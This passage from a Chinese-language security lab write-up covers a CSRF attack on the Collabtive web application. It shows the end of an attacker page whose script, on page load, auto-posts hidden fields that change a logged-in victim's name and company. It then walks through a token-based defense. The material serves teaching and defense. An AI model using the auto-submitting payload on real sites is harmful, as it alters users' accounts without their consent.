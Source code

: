 ```
>     // by attackers. The entries are made hidden, so the victim
>     // won't be able to see them.
>     fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
>     fields += "<input type='hidden' name='userfile' value=''>";  
>     fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
>     post('http://www.csrflabcollabtive/manageuser.php?action=edit',fields);
>     }
>     // invoke csrf_hack() after the page is loaded.
>     window.onload = function() { csrf_hack(); }
>     </script>
>     </body></html>
```

将上面的代码保存为index.html并放在/var/www/CSRF/Attacker/文件夹下，当用户没有退出，就去访问了www.csrflabattacker.com就会对collabtive网站的用户信息进行修改；下面进行测试：

访问前，注意用户的姓名还有company：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077513440?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

访问攻击者页面，当然页面还可以进行变形做的更加隐秘，甚至让用户完全不能察觉：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077535479?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

再次查看用户信息，这个时候我们就会发现用户变成了我们的期望值了：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077546857?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

#### 原理解析 

攻击者模拟一个页面进行自动提交，当用户访问这个页面时，相当于用户自己去修改信息，服务器不会判断是人发起的还是自动发起的，这个时候漏洞就产生了！

### lab2 对Collabtive实施防御对策 

服务端防御：放映厅CSRF方式方法很多样，但总的思想都是一致的，就是在客户端页面增加伪随机数；

编辑验证文件

```
sudo vim /var/www/CSRF/Collabtive/templates/standard/edituserform.tpl
```

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077560187?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077568138?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

保存并退出，然后修改manageuser.php文件

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077576553?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

这一行是获取用户提交过来的sid值；添加位置可以适当变化；

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid13labid876time1429077583942?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

这一行是对用户sid值进行判断，是否等于phpsessid的值，如果相等就可以进行对用户编辑，这样当攻击者想攻击时，就不能通过验证了；这里需要注意的是，if需要对整个编辑内容进行判断；所以要注意括号闭合的位置，应该是$action="edit"整个内容；
